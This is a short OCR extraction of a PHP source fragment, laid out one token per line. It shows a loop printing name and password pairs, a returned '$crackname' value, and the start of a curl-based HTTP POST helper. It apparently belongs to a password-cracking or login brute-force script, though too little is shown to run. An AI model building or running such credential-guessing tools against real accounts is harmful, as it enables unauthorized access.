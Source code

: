 
echo

"$name $pass"

.

"\n"

;
                

}

            

}
        

}

    

}
    

return

$crackname

;

}
 

 
function

httprequest(

$url

,

$post

){

    

$ch

= curl_init();
    

curl_setopt(

$ch

, CURLOPT_URL,

"$url"

);

    

curl_setopt(

$ch
